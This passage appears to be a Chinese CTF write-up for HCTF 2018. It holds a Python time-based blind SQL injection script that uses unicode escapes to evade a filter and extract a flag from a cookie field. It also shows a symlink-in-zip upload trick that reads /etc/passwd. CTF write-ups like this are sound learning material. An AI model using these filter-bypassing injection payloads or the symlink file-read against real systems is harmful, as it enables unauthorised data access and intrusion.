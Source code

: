 python3会对unicode编码自动解码，需要转义一下，python2不需要。

```
# -*- coding: utf-8 -*-
import requests
import string

url = 'http://kzone.2018.hctf.io/include/common.php'
str1 = string.ascii_letters+string.digits+'{}!@#$*&_,'

def check(payload):
    cookie={
        'PHPSESSID':'8ehnp28ccr4ueh3gnfc3uqtau1',
        'islogin':'1',
        'login_data':payload
    }
    try:
        requests.get(url,cookies=cookie,timeout=3)
        return 0
    except:
        return 1

result=''
for i in range(1,33):
    for j in str1:
        #payload='{"admin_user":"admin\'and/**/\\u0069f(\\u0073ubstr((select/**/table_name/**/from/**/inf\\u006Frmation_schema.tables/**/where/**/table_schema\\u003Ddatabase()/**/limit/**/0,1),%d,1)\\u003D\'%s\',\\u0073leep(3),0)/**/and/**/\'1","admin_pass":65}'%(i,j)
        payload = '{"admin_user":"admin\'/**/and/**/\\u0069f(\\u0061scii(\\u0073ubstr((select/**/F1a9/**/from/**/F1444g),%s,1))\\u003d%s,\\u0073leep(4),1)/**/and/**/\'1","admin_pass":"123"}'% (str(i),ord(j))      
        #print('[+]'+payload)
        if check(payload):     
            result += j
            break
    print(result)
```

## hide and seek

**only admin can get it update1/更新1: 1. fix bugs 2. attention: you may need to restart all your work as something has changed hint: 1. docker 2. only few things running on it update2/更新2: Sorry，there are still some bugs, so down temporarily. update3/更新3: fixed bug**

参考链接:`https://www.leavesongs.com/PENETRATION/bottle-crlf-cve-2016-9964.html`

```
ln -s /etc/passwd link

zip -y test.zip link
```

上传之后，可以看到`/etc/passwd`.
